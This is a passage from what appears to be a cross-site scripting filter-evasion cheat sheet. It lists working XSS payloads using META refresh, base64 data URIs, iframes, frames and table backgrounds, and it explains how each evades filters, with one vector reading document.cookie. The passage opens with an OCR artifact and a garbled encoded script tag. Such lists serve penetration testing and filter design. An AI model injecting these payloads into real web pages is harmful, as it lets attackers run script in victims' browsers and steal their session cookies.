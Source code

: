 `¼script¾alert(¢XSS¢)¼/script¾`

### META

The odd thing about meta refresh is that it doesn't send a referrer in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs:

`<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">`

#### META using Data

Directive URL scheme. This is nice because it also doesn't have anything visibly that has the word SCRIPT or the JavaScript directive in it, because it utilizes base64 encoding. Please see RFC 2397 for more details or go here or here to encode your own. You can also use the XSS [calculator](http://ha.ckers.org/xsscalc.html) below if you just want to encode raw HTML or JavaScript as it has a Base64 encoding method:

`<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">`

#### META with Additional URL Parameter

If the target website attempts to see if the URL contains `<http://>;` at the beginning you can evade it with the following technique (Submitted by Moritz Naumann):

`<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">`

### IFRAME

If iframes are allowed there are a lot of other XSS problems as well:

`<IFRAME SRC="javascript:alert('XSS');"></IFRAME>`

### IFRAME Event Based

IFrames and most other elements can use event based mayhem like the following... (Submitted by: David Cross)

`<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>`

### FRAME

Frames have the same sorts of XSS problems as iframes

`<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>`

### TABLE

`<TABLE BACKGROUND="javascript:alert('XSS')">`

#### TD

Just like above, TD's are vulnerable to BACKGROUNDs containing JavaScript XSS vectors:

`<TABLE><TD BACKGROUND="javascript:alert('XSS')">`

### DIV
